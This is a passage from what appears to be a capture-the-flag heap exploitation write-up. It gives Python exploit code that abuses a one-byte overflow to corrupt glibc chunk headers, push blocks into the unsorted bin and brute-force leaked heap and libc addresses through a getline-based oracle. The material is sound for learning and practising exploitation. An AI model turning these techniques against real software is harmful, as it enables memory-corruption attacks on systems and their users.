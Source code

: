 #### Step 2: Forcing Blocks into the Unsorted Bin

We start by using our one‐byte overflow primitive to “bump up” our target blocks to be able to free them into the unsorted bin. For both Group A (heap leak) and Group B (libc leak), we first overflow the size field of block \*2, then realloc the manipulated chunk, so that the header of blocks \*F is overwritten. Freeing them lands both blocks in the unsorted bin, writing both a libc address and an unconcealed heap address onto the heap, which we eventually can brute force.

```python
# first, write heap address to +0x0388
edit(io, A1, A1+b'\x41')            # sets A2 size to 0x41    
delete(io, A2)                      # frees A2+AF into tcache bin 0x40
                                    # reallocs A2, sets AF size to 0x421
alloc(io, 0x40, A2+b'\x21\x04\x00\x00\x00\x00\x00\x00'+AF)   
delete(io, AF)                      # frees AF + APAPAPAP into unsorted bin

# then, write libc address to +0x0788

edit(io, B1, B1+b'\x41')            # sets B2 size to 0x41    
delete(io, B2)                      # frees B2+BF into tcache bin 0x40
                                    # reallocs B2, sets BF size to 0x421
alloc(io, 0x40, B2+b'\x21\x04\x00\x00\x00\x00\x00\x00'+BF)   
delete(io, BF)                      # frees BF + BPBPBPBP into unsorted bin
```

#### Step 3: Removing NULL Bytes in Headers

Before we can brute-force the addresses, we must fix up the headers of our \*F blocks. The headers currently contain NULL bytes that would prematurely terminate our `getline()` call. We fix this by using another one-byte overflow (this time with \x31), then free and reallocate to “clean” the header.

```python
## now, overwrite headers of *F blocks to get rid of any NULL bytes
edit(io, A1, A1+b'\x31')            # sets A2 size to 0x31    
delete(io, A2)                      # frees A2 + header of AF into tcache bin 0x30
alloc(io, 0x30, 0x14*b'A2')         # reallocs A2, removes NULL BYTES before address

edit(io, B1, B1+b'\x31')            # sets B2 size to 0x31    
delete(io, B2)                      # frees B2 + header of BF into tcache bin 0x30
alloc(io, 0x30, 0x14*b'B2')         # reallocs B2, removes NULL BYTES before address
```

#### Step 4: Brute-Forcing the Leaked Addresses

Now that our blocks are in the unsorted bin with “clean” headers, we can use our constrained read primitive to brute-force the leaked addresses.

To perform the brute force, we use the following snippet (thanks ChatGPT, with some tweaks by me for proper endline handling):
```python
def guess_address(r, prefix, current_guess=b"", total_length=8):
    while len(current_guess) < total_length:
        for i in range(256):
            if i in [0x00, 0x0a]: continue 			# would terminate getline
            candidate = prefix + current_guess + p8(i)
            r.sendline(b"2")
            r.sendafter(b"old content> ", candidate + ENDL)
            resp = r.recv(12)
            if b"new content>" in resp:
                r.send(candidate)
                current_guess += p8(i)
                break
    return current_guess
```
